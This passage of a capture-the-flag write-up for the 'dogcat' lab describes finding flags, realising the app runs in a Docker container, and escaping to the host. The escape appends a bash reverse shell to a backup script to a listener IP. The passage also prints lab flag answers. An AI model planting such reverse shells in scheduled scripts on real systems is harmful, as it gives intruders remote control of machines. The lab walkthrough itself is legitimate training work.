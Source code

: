 
Running `find / -name flag*` we find 
Flag 2 in `/var/www/flag2_QMW7JvaY2LvK.txt`
```
THM{LF1_t0_RC3_aec3fb}
```

Hmmm, where is the fourth flag ?

Hmmm there is a `opt/backups/backup.tar` file. Let's check it out.

Nopp, seems like it's an actual backup..

Couldn't find anything on the box.. Looked up a writeup.
And the flag is not actually on the box.
Well..it is, the `dogcat` app run inside a container (as we can see from the backup structure and also the `/.dockerenv` file).
Should have realised there was more to it when I changed the root password and i couldn't connect to the box via ssh (Also there was no ssh process running inside the container).
We can modify the `/opt/backups/backup.sh` file to get a reverse shell to the box that host the container

We append the reverse shell to the script
```
echo 'bash -i >& /dev/tcp/10.1.42.150/7777 0>&1' >> /opt/backups/backup.sh
```

We then receive a reverse shell and see the `flag4.txt` file in `/root` of the box :
```
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
```

And it's done